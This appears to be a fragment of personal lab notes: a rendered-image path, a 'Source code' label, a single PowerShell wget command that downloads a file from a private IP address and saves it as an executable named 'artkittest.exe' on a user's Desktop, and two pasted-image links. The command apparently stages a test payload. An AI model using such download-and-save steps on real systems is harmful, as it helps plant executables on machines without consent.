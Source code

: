 `wget http://192.168.127.134:80/b -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe"`
![[Pasted image 20250812154428.png]]
![[Pasted image 20250812154452.png]]